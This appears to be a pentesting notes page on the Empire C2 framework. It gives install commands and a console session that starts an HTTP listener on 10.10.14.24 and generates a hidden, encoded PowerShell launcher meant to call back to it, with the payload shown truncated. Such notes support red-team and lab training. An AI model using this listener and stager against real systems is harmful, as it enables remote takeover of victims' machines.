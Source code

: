```yaml
---
### The title for the content.
title : "Empire"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "empire"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Empire 4 is a post-exploitation framework that includes a pure-PowerShell Windows agents, Python 3.x Linux/OS X agents, and C# agents."
### The datetime assigned to this page.
date : 2020-03-11T10:40:17+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "empire"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Tools","C2","Empire"]
---
```


## Empire

### Install

#### System

```bash
git clone --recursive https://github.com/BC-SECURITY/Empire.git
cd Empire
sudo ./setup/install.sh
sudo poetry install
```

#### Docker

```bash
# Pull the latest image
docker pull bcsecurity/empire:latest
​
# Run the server with the rest api and socket ports open
docker run -it -p 1337:1337 -p 5000:5000 bcsecurity/empire:latest
​
# Run the client
docker run -it -p 1337:1337 -p 5000:5000 bcsecurity/empire:latest client
​
# To run the client against the already running server container
docker container ls
docker exec -it {container-id} ./ps-empire client
​
# with persistent storage
docker pull bcsecurity/empire:latest
docker create -v /empire --name data bcsecurity/empire:latest
docker run -it -p 1337:1337 -p 5000:5000 --volumes-from data bcsecurity/empire:latest
​
# if you prefer to be dropped into bash instead of directly into empire
docker run -it -p 1337:1337 -p 5000:5000 --volumes-from data --entrypoint /bin/bash bcsecurity/empire:latest
```

### Examples

#### Start the server

```bash
./ps-empire server
```


#### Start the client

```bash
./ps-empire client
```

#### setup basic listener and gen launcher

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.24:80
(Empire: listeners/http) > set BindIP 10.10.14.24
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher
[!] Please enter 'launcher <language> <listenerName>'
(Empire: listeners) > launcher powershell http
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAF.....kAEsAKQApAHwASQBFAFgA
```

### Also see

* [Wiki](https://bc-security.gitbook.io/empire-wiki/)
* [Github project](https://github.com/BC-SECURITY/Empire)
* [Customizing C2 Frameworks](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)